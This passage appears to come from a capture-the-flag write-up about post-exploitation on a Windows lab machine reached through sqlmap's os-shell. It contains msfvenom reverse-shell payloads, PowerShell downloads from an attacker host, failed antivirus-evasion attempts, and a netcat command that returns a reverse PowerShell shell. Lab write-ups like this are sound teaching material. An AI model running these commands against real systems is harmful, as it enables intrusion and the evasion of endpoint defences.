 As I said earlier `--os-pwn` was not working so I tried `--os-shell` to run
some command manually.

I generated (locally) a `meterpreter` reverse shell.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=9999 -f exe > win.exe
```

And tried to upload it will powershell in the `os-shell` session.

```
os-shell> powershell -nop -c "wget http://10.10.14.34:8080/win.exe -OutFile uploads\win.exe"
```

Unfortunately, there is an EDR blocking and removing our reverse shell.

```
'The system cannot execute the specified program.'
```

I persisted and tried with various encoders or without meterpreter.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=8080 -f exe -e shikata_ga_nai -i 3 > win.exe
-> spotted

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=8080 -f exe -e shikata_ga_nai -i 4100 > win.exe
-> spotted

msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.14.34 LPORT=8080 -f exe > win.exe
-> spotted
```

I found [a manual obfuscation method with raw python][avevasion] that claimed to work 100%
of the time but it was overkill and too time consuming to do AV evasion.

[avevasion]:https://medium.com/bugbountywriteup/antivirus-evasion-with-python-49185295caf1

Else is tried to upload `nc.exe`:

```
cp ~/CTF/tools/kali-windows-binaries/nc.exe .
```

Note: the pre-compiled binary can be found here:
[interference-security/kali-windows-binaries](https://github.com/interference-security/kali-windows-binaries).

So I uploaded it and created a powershell session:

```
os-shell> powershell -nop -c "wget http://10.10.15.123:8080/nc.exe -OutFile uploads\nc.exe"
os-shell> uploads\nc.exe 10.10.15.123 9999 -e powershell.exe
```

Yey, the listener caught it without being spotted by the EDR:

```
$ nc -nlp 9999
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot>whoami
nt authority\iusr

C:\inetpub\wwwroot>
```
